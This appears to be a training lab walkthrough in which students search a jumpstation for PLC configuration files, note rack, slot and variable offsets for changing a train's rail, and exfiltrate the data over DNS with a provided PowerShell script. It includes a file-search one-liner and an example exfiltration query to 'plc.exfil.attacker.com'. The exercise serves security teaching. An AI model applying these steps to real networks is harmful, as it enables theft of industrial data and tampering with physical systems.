

# DNS Exfiltration

## Objective

- Search for files containing valuable information about the OT environment. 
- Target Programmable Logic Controllers (`PLC`) configuration.
- Search for Rack, Slot and other Variables to modify the values within the PLC.
- Send this information to our hacker community so they can build a custom script to change values in the PLC.

## Step by Step Guide


<div class="purple">

Use the RDP connection to the jumpstation, to find sensitive data about the environment to exiltrate.
</div>

### What to look for?

1.	COPY the content of the `PLC_Template_X.txt` file, located on the resources server.

    - Location: `/cyberhell/docs`

    


1. OPEN `Notepad` and PASTE the content of `PLC_Template_X.txt`

1. SAVE the Notepad document on the `Desktop` on the Jumpsation.

    - File name: `plc`
    - File format: `.txt`
    - Path: `C:\Users\kateX\Desktop`

1. Analyze the content of the file you just created, `plc.txt`

    

----

### Search PLC information

<div class="purple">

Your mission: find the missing values and exfiltrate this file over DNS!
</div>


<div class="red">

Document your finding using the `plc.txt` files, as in the next activity you will exfiltrate this information!
</div>


1.	Search on the jumpstation for documents containing valuable information about the `PLC`s within their OT environment.

    Use the following PowerShell one-liner to search for all files with names that contain the word `plc` in the OT environment:
    
    ```powershell
    Get-ChildItem -Path "C:\" -Recurse -Force -ErrorAction SilentlyContinue | Where-Object { $_.Name -match "plc" } | Select-Object FullName
    ```

    <div class="purple">

    This may take some time, so don’t worry if nothing appears right away—just be patient.
    </div>

    


1.	Open the different documents and look for valuable information about the PLC configuration.

    Open `PLC_DEVICE_CONFIG.pdf`

    - First, look for `PLC hardware` and `Firmware Version`.
    - Next, look for `Rack` and `Slot` values.

    

    Open `PLC_VARIABLES.pdf`

    - Copy all variables including `data type`, `offset`, `start value`, etc.
    - Analyze the **offset** values.
    <br>
    
    <div class="purple">

    The `Offset` value consist of 2 parts, separated by a dot `.`
    - `Start offset` = the first value in the table
    - `Bit offset` = the second value in the table after the dot `.`

    Example: `0.1` = Start offset `0` and Bit offset `1`.
    </div>

    <br>

    **Identify the correct variable name and its associated offset values.**
   
    💡 **Tips**
    - Look for a variable name that seems like it was used for testing and may have been accidentally left behind by the PLC program developers.
    
    - Check the Train Setup. Which rail is the train currently using?
    **If you want the train to switch to a different rail, which value do you need to modify?**

    

----


### Exfiltrate `plc.txt` over DNS

<div class="red">

First, make sure you have saved the `plc.txt` file, containing all information about the OT environment, on KateX Desktop: `C:\Users\kateX\Desktop`.
</div>


1. Use the `Exfil.ps1.txt` script from the [Resource Server](http://resources.cyberhell.be/cyberhell/hacker/scripts/)

    `/cyberhell/hacker/scripts/Exfil.ps1.txt`

    

    - COPY the content of `Exfil.ps1.txt`
    - OPEN Notepad
    - PASTE the content of the script
    
    
    <div class="red">
    
    Change the `$numberOnly` variable (replace `X` with your student **number**, for example: `1`)
    </div>

1. **Save the file as:**

    - Location: **Desktop**
    - File name: `Exfil.ps1`
    - File type: `All files (.)`

    

   
    
1. Go back to the Powershell terminal and execute the `Exfil.ps1` script located on KateX Desktop.

    ```
    cd Desktop
    .\Exfil.ps1
    ```

    


1. **Your file has been successfully exfiltrated to our malicious DNS server.**

    


1. **Ask an instructor the verify**


    <div class="purple"> 
    
    Ask an instructor to reassemble the file to its original state and to verify the information you have exfiltrated.
    </div>

    


----

### What happened?

In this activity, we used a **DNS exfiltration** technique to sneak data out of a network by hiding it inside DNS queries.

Normally, DNS is used to resolve domain names (like `google.com`) into IP addresses. But in this case, we used it to **send file data** out of the network — one small piece at a time.

The file we wanted to exfiltrate was **broken into small pieces**, called **chunks**. Each chunk is just a few bytes of data — **small enough to fit inside a DNS query**.

For example, a chunk might look like this:  
`626974733D636F6E666964656E7469616C2E646F63`

This chunk of data was then sent out using a **fake DNS request**, like:  
`626974733D...plc.exfil.attacker.com`

To the network, it just looks like someone is trying to resolve a very long domain name. But in reality, we're hiding data in the part before `.plc.exfil.attacker.com`.
    


